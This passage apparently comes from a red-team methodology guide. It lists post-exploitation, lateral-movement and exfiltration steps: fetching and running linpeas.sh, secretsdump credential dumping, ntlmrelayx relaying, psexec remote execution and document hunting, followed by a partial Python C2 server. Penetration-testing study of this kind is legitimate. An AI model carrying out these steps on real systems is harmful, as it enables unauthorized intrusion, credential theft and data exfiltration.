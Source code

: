 ### Phase 3: Post-Exploitation
```bash
# Privilege escalation enumeration
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
chmod +x linpeas.sh && ./linpeas.sh

# Credential dumping
secretsdump.py domain/user:password@target

# Persistence establishment
# Various techniques available in the environment
```

### Phase 4: Lateral Movement
```bash
# Network enumeration
nmap -sS 192.168.1.0/24 -p 22,139,445,3389

# Credential relay attacks
ntlmrelayx.py -t smb://target -c "whoami"

# Remote execution
psexec.py domain/user:password@target
```

### Phase 5: Data Collection & Exfiltration
```bash
# Data discovery
find / -name "*.pdf" -o -name "*.doc*" -o -name "*.xls*" 2>/dev/null

# Covert exfiltration
# DNS exfiltration, steganography, and other covert channels available
```

## Advanced Features

### Custom C2 Development
```python
# Example C2 development framework
import socket
import threading
import base64
from cryptography.fernet import Fernet

class CustomC2Server:
    def __init__(self, host='0.0.0.0', port=1337):
        self.host = host
        self.port = port
        self.clients = []
        self.key = Fernet.generate_key()
        self.cipher = Fernet(self.key)
    
    def start_server(self):
        server = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        server.bind((self.host, self.port))
        server.listen(5)
        print(f"[+] C2 Server listening on {self.host}:{self.port}")
        
        while True:
            client, addr = server.accept()
            print(f"[+] New connection from {addr}")
            self.clients.append(client)
            threading.Thread(target=self.handle_client, args=(client,)).start()
```